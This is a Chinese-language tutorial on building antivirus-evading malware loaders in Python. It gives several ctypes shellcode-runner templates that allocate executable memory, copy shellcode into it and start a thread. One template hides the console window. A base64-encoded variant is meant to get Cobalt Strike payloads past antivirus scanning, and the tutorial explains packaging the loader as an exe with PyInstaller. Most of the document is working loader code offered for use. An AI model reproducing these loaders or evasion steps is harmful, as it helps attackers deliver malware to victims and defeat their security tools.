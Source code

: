 # 0x00 简介

其实用python go等语言打包成exe来免杀非常不错，这里我使用python 其他语言类似，这种方式就是打包的文件很大

Python打包工具有三种py2exe、PyInstaller和cx_Freeze,我这里使用的是PyInstaller。

其实用python来加载shellcode 在2012之前国外都有人发过文章了,各种加载方式,有些但是执行不成功，所以我这里整理了几种

# 0x01 shellcode->python

python 执行shellcode主要用到模块ctypes来使用和C兼容的数据类型 以下是网络流传的执行shellcode的代码

1.

```
#!/usr/bin/python
import ctypes

shellcode = bytearray("\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b")

ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))
 
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),
                                     buf,
                                     ctypes.c_int(len(shellcode)))

ht = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.c_int(ptr),
                                         ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.pointer(ctypes.c_int(0)))
 
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(ht),ctypes.c_int(-1))

```

2.


```
from ctypes import *

shellcode = ""
shellcode_one = create_string_buffer(shellcode, len(shellcode))
shellcode_run = cast(shellcode_one, CFUNCTYPE(c_void_p))
shellcode_run()

```

3.

```
from ctypes import *
import ctypes
buf =  ""
#libc = CDLL('libc.so.6')
PROT_READ = 1
PROT_WRITE = 2
PROT_EXEC = 4
def executable_code(buffer):
    buf = c_char_p(buffer)
    size = len(buffer)
    addr = libc.valloc(size)
    addr = c_void_p(addr)
    if 0 == addr: 
        raise Exception("Failed to allocate memory")
    memmove(addr, buf, size)
    if 0 != libc.mprotect(addr, len(buffer), PROT_READ | PROT_WRITE | PROT_EXEC):
        raise Exception("Failed to set protection on buffer")
    return addr
VirtualAlloc = ctypes.windll.kernel32.VirtualAlloc
VirtualProtect = ctypes.windll.kernel32.VirtualProtect
shellcode = bytearray(buf)
whnd = ctypes.windll.kernel32.GetConsoleWindow()   
if whnd != 0:
       if 1:
              ctypes.windll.user32.ShowWindow(whnd, 0)   
              ctypes.windll.kernel32.CloseHandle(whnd)
memorywithshell = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
old = ctypes.c_long(1)
VirtualProtect(memorywithshell, ctypes.c_int(len(shellcode)),0x40,ctypes.byref(old))
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(memorywithshell),
                                     buf,
                                     ctypes.c_int(len(shellcode)))
shell = cast(memorywithshell, CFUNCTYPE(c_void_p))
shell()

```

4.

```
import ctypes

shellcode =  ""

rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode), 0x1000, 0x40)
ctypes.windll.kernel32.RtlMoveMemory(rwxpage, ctypes.create_string_buffer(shellcode), len(shellcode))
handle = ctypes.windll.kernel32.CreateThread(0, 0, rwxpage, 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)

```


用CS生成python shellcode 写入后运行成功上线就可以打包成exe了，这里用PyInstaller为例 

> PyInstaller --console --onefile shellcode_encoder.py

![Cobalt Strike ](./img/2.5.1.png)


# 0x02 encodeshellcode->python

通过简单的base64编码来绕过AV的查杀

```
import ctypes
import base64

encode_shellcode = "/OiJAAAAYInlMdJki1Iwi1IMi1IUi3IoD7dKJjH/McCsPGF8Aiwgwc8NAcfi8FJXi1IQi0I8AdCL"

shellcode = base64.b64decode(encode_shellcode)

rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode), 0x1000, 0x40)
ctypes.windll.kernel32.RtlMoveMemory(rwxpage, ctypes.create_string_buffer(shellcode), len(shellcode))
handle = ctypes.windll.kernel32.CreateThread(0, 0, rwxpage, 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)

```

当然你也可以把整个代码base64加密然后用 `exec`  来执行 比如`exec(base64.b64decode("encode"))`

自己写个简单的加密很容易就达到绕过AV查杀的目的,并不是很推荐使用base64可以使用密匙来对称加密。

![Cobalt Strike ](./img/2.5.2.png)

# 0x03 文末


### 本文如有错误，请及时提醒，以免误导他人
